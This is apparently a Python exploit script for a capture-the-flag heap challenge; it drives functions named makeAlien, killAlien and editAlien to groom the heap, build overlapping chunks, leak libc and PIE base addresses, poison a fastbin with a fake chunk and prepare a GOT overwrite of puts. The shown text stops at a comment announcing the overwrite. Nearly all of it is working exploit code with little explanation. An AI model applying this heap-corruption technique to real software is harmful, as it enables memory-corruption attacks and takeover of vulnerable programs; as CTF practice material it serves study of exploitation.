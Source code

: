 ```
# First groom the heap for alignment
makeAlien(0x20, 'pineapple')# 0
makeAlien(0x20, 'pineapple')# 1
makeAlien(0x20, 'pineapple')# 2
makeAlien(0x20, 'pineapple')# 3

killAlien(0)
killAlien(1)
killAlien(2)
killAlien(3)

makeAlien(0xf0, "0"*8)# 4
makeAlien(0x60, "1"*8)# 5
makeAlien(0xf0, "2"*8)# 6
makeAlien(0x10, "3"*8)# 7

killAlien(4)
killAlien(5)

# This chunk is the one that will overlap with the unsorted bin
makeAlien(0x68, "4"*0x60 + p64(0x170))# 8

killAlien(6)

makeAlien(0xf0, '4'*8)# 9

# Leak libc
leak = editAlien(8, "0000000", 1)
libcBase = leak - 0x3c4b78
freeHook = libcBase + libc.symbols['__malloc_hook'] - 0x13



# Leak pie
x = editAlien(-10, "0", 1)
pieBase = x - 0x202070

fakeChunk = pieBase + 0x20208d

print "Pie Base: " + hex(pieBase)
print "Libc Base: " + hex(libcBase)
print "Fake Chun: " + hex(fakeChunk)



# This chunk overlaps with chunk 8
makeAlien(0x60, '5'*8)# 10

# Add chunk 10 to the fast bin
killAlien(10)

# Edit fastbin chunk, add our fake chunk to the fast bin
editAlien(8, p64(fakeChunk))

# Move our fake chunk up to the top of the fast bin
makeAlien(0x60, '8'*8)# 13

# Write the pointers for the got overwrite
makeAlien(0x60, '159' + p64(fakeChunk + 3 + 0x18) + p64(pieBase + elf.got['puts'])[:6], 1)# 14



# Execute the got overwrite
```